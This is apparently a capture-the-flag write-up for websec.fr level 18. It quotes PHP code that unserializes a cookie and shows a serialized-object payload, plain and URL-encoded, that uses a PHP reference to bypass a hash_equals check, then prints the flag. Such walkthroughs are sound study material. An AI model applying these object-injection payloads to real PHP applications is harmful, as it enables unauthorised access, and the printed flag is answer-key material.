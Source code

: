 # Level 18

1. First, lets check what is written in https://websec.fr/level18/source.php
2. Then, we can find out 
    ```
    <?php
        $obj = $_COOKIE['obj'];
        $unserialized_obj = unserialize ($obj);
        $unserialized_obj->flag = $flag;  
        if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
            echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
        else 
            echo '<div class="alert alert-danger"><code>' . htmlentities($obj) . '</code> is an invalid object, sorry.</div>';
    ?>
    ```
    It is really similar to level 20, as we know php object injection, so we can check the website : https://www.evonide.com/fuzzing-unserialize/ again and see what we need in this challenge. 
3. Now, lets type something like "123" and we will get the information :
    ```
    O:8:"stdClass":1:{s:5:"input";i:1234;} is an invalid object, sorry.
    ```
    As we can see in the php code above, we have to match flag and input to get the flag, and here is a good news : php do support reference. Lets take a look at the chart "r" and "R" and see what it means. 
4. So, here is the payload I think : 
    ```
    O:8:"stdClass":2:{s:4:"flag";i:1234;s:5:"input";R:2;}
    ```
    and
    ```
    O:8:"stdClass":2:{s:4:"flag";i:1234;s:5:"input";r:2;}
    ```
5. So, here is a little bit different between "r" and "R" that "R" set "[zval](http://www.phpinternalsbook.com/php5/zvals.html)" attribute. As we can see, we have no idea what the attibute of "$flag" is, so we have to set zval and pass hash_equal(). In fact, I tried the payload both and guess the result. I will modify the repo if I know the correct answer. By the way, you have to convert the payload above into 
    ```
      O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A4%3A%22flag%22%3Bi%3A1234%3Bs%3A5%3A%22input%22%3BR%3A2%3B%7D
    ```
    by [urlencoder](https://www.urlencoder.org/), change the cookie and get the flag.
6. Here is the flag : WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}

